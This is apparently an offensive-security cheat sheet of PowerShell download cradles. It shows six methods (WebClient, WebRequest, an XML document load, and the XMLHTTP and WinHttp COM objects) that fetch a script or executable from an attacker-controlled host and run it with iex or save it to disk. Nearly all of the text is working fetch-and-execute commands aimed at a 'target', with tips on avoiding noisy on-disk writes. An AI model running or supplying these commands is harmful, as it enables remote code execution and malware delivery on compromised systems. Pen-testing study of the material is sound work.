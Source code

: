 # Downloading File using Powershell and IEX

## Net.WebClient DownloadString Method

Most common download cradle. Use with IEX to run remote powershell scripts.

```text
powershell.exe iex (New-Object Net.Webclient).DownloadString('http://{ip}/{file}')
```

or by breaking it up:

```text
$downloader = New-Object System.Net.WebClient
$payload = "http://{ip}/{file}"
$command = $downloader.DownloadString($payload)
iex $command
```

## Net.WebClient DownloadFile Method

Noisy and not recommended. Will download file to disk.

```text
$downloader = New.Object System.Net.Webclient
$payload = "http://{ip}/{file}"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload, $local_file)
```

```text
powershell -c "(new-object
System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Deskto
p\wget.exe')"
```

## Net.WebRequest

Used to download and execute scripts on target in memory.

```text
$req = [System.Net.WebRequest]::Create("http://{ip}/{file}")
$res = $req.GetResponse()
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()
```

## System.Xml.XmlDocument

First create a XML file with the following contents:

```text
<?xml version="1.0"?>
<command>
    <a>
        <execute>Get-Process</execute>
    </a>
</command>
```

Next we can use the System.Xml.XmlDocument class with the "Load" method to download and execute:

```text
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://{ip}/{file}.xml")
iex $xmldoc.command.a.execute
```

## Msxml2.XMLHTTP COM Object

```text
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open("GET", "http://{ip}/{file}", $false)
$downloader.send()
iex $downloader.responseText
```

## WinHttp.WinHttpRequest.5.1 COM Object

```text
$url=http://{ip}/{file}
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.Option(4) = 13056
$downloader.open("GET", $url, $false)
$downloader.send()
iex $downloader.responseText
```

